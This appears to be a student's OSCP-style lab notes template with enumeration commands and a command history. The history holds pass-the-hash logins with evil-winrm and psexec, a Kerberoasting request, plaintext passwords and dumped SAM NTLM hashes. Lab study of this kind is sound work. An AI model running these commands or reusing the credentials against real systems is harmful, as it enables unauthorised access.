 # 192.168.x.143
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`

- C:\Users\offsec\Desktop\local.txt
- C:\Users\Administrator\Desktop\proof.txt


# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 10.10.108.146 --top-ports 1000`
```

```
`sudo nmap -A -T4 -p- 192.168.150.144`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
// xfreerdp3 /u:Eric.Wallows /p:EricLikesRunning800 /v:192.168.150.147
evil-winrm -i 10.10.108.146 -u tom_admin -H 4979d69d4ca66955c075c41cf45f24dc

proxychains impacket-GetUserSPNs -request -dc-ip 10.10.108.146 oscp.exam/web_svc:Diamond1
evil-winrm -i 10.10.108.146 -u web_svc -p Diamond1


ssh Eric.Wallows@192.168.150.147

DC
10.10.110.146

Admin/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
hghgib6vHT3bVWF

evil-winrm -i 192.168.133.141 -u celia.almeda -p MySecurePass123
evil-winrm -i 10.10.108.146 -u celia.almeda -p MySecurePass123
evil-winrm -i 10.10.110.146 -u Mary.Williams -H 9a3121977ee93af56ebd0ef4f527a35e
evil-winrm -i 10.10.108.146 -u Eric.Wallows -H a1f18f9362b5485cca07aedda6792454


evil-winrm -i 10.10.108.146 -u OSCP\\celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd
```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
    Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
    support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::

sudo impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b OSCP\\Administrator@10.10.108.146